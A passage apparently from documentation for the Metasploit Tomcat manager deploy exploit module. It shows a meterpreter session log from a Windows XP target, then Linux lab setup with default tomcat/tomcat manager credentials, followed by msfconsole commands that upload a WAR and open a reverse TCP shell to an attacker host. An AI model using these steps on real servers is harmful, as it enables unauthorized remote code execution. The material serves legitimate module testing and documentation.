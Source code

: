     path => /manager/text
    msf exploit(tomcat_mgr_deploy) > exploit

    [*] Started reverse TCP handler on 192.168.2.117:4444
    [*] Using manually select target "Java Universal"
    [*] Uploading 6085 bytes as c6TYmkd8YAe8LqKQhSCr.war ...
    [*] Executing /c6TYmkd8YAe8LqKQhSCr/PtW1uMsYCIFP1gs16PUiwE7oc.jsp...
    [*] Undeploying c6TYmkd8YAe8LqKQhSCr ...
    [*] Sending stage (49409 bytes) to 192.168.2.108
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.108:1196) at 2017-01-14 10:24:52 -0500

    meterpreter > sysinfo
    Computer    : winxp
    OS          : Windows XP 5.1 (x86)
    Meterpreter : java/windows
    ```

## Linux

### Tomcat6 (6.0.39) - Ubuntu server 14.04 64bit

#### Setup

1. Install Tomcat and dependencies: `sudo apt-get install tomcat6 tomcat6-admin`

#### Exploit

1. Edit `/etc/tomcat6/tomcat-users.xml` to add the following:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart Tomcat: `sudo service tomcat6 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.156
    rhost => 192.168.2.156
    msf exploit(tomcat_mgr_deploy) > set rport 8080
    rport => 8080
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set payload linux/x86/meterpreter/reverse_tcp
    payload => linux/x86/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set target 3
    target => 3
    msf exploit(tomcat_mgr_deploy) > exploit
